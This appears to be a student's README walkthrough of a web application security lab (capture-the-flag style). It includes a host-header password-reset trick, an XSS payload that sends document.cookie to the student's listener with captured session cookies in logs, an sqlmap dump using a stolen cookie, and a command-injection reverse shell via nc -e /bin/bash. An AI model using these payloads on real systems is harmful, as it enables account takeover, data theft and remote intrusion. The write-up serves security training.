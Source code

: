 Welcome to Web Application Security Module \o/

Requirements
General
All your scripts will be tested on Kali Linux 2023.3
All your scripts should be exactly two lines long ($ wc -l file should print 2)
You must substitute the IP range for $1.
All your files should end with a new line (Why?)
The first line of all your files should be exactly #!/bin/bash.
A README.md file, at the root of the folder of the project, is mandatory
Your code should use the Betty style. It will be checked using betty-style.pl and betty-doc.pl
All your files must be executable

## task 2 flag (login/ and reset_password/)
- run your vpn file
- start ubuntu container
- you need to connect to the ubuntu sandbox, and make the request from there, edit the etc/hosts file (put the ip of the machine, and the domain: 
- start the cyber_websec0x00 container

### open another sandbox (you will have to sandbox, one to make the request an other to listen what the request produce.
python3 -m http.server -b :: 80
### command to make the request
curl -X POST "http://web0x00.hbtn/reset_password" -H "Host: 10.42.92.127" -d "email=yosri@web0x00.hbtn" 

- Use the token that you receive to gain access to the reset password, change the password, go to login, use the user (part of the email) and the newpassword.


## task 3-4 (/support)
3-xss_payload.txt
<script>fetch(`http://<ubuntu ip>/${document.cookie}`)</script>

- use the above script in the input (plain text) of the ticket, to send the malicious script as a support ticket  lol. 

┌──(kali㉿kali)-[~]
└─$ python3 -m http.server -b :: 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:10.8.0.6 - - [17/Apr/2024 05:19:24] code 404, message File not found
::ffff:10.8.0.6 - - [17/Apr/2024 05:19:24] "GET /reset_password/YDVzdvLIOuLYfuLZnBsInRGavJblcSnm HTTP/1.1" 404 -
::ffff:10.8.0.6 - - [17/Apr/2024 05:24:06] code 404, message File not found
::ffff:10.8.0.6 - - [17/Apr/2024 05:24:06] "GET /session=.eJxFyjsKgDAQBcC7vDpIbFMpHsETJLhiID92E1TEu2sjtsNcGJfok8CsNggpTE1qjsSvVG4vzK2UzPUfFK0PMDizsB92cvrQuttcTVDwC0yv0IQ42Uhfw_0AkYMj6g.Zh-VNg.MWQCtcSPJKnMjlk_qnGfkV1mkb4 HTTP/1.1" 404 -
::ffff:10.8.0.6 - - [17/Apr/2024 05:24:12] code 404, message File not found
::ffff:10.8.0.6 - - [17/Apr/2024 05:24:12] "GET /session=.eJxFyksKgCAURuG9_GMJmzoqWkIrULyR4AuvUhDtPaGBw_NxHqw2uMhQh_ZMAlvjmgKVIXvLOZXaoZbWm4J2Hgr8-3KRkbeU02lqhICzULNAYypRBxoj3g8vsSW4.Zh-VOg.8JCGXo-A0Wx1Ul5BVpaEfqRVIjU HTTP/1.1" 404 -

- run the paylod, and use the other sandbox to check for a different cookie, use that cookie in the support page to gain access and find the flag. 
- You have to put the cookie in webtools->storage-->cookie--> value



## task 5-6 
sqlmap -u "http://web0x00.hbtn/ticket?id=9" --cookie="session=.eJxFyksKgCAURuG9_GMJmzoqWkIrULyR4AuvUhDtPaGBw_NxHqw2uMhQh_ZMAlvjmgKVIXvLOZXaoZbWm4J2Hgr8-3KRkbeU02lqhICzULNAYypRBxoj3g8vsSW4.Z4BojQ.Hek5BhofOZUbW9No8AdLR5kweLw" --batch --dump

- The database will dumb a lot of info, you need to search for the adminpass. With this command your using a id parameter from a ticket that you maliciusly create.
- Go to the /admin panel to use the user and password that you casually founded lol.


exercise #8 flag - reverse shell
## sandbox
root@:/# nc -nlvp 80
Listening on 0.0.0.0 80

##paylod in admin's account
- http://web0x00.hbtn/admin
; ./nc your_ip_local 80 -e /bin/bash

Connection received on 10.42.74.137 35678
ls
__pycache__
app.py
db.sql
nc
nginx.conf
render.py
requirements.txt
static
templates
utils
web0x00.sqlite3
cd ..
ls
app
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd root/
ls
flag.txt
cat flag.txt
3845211fd4640c1d07072f4609500f0e
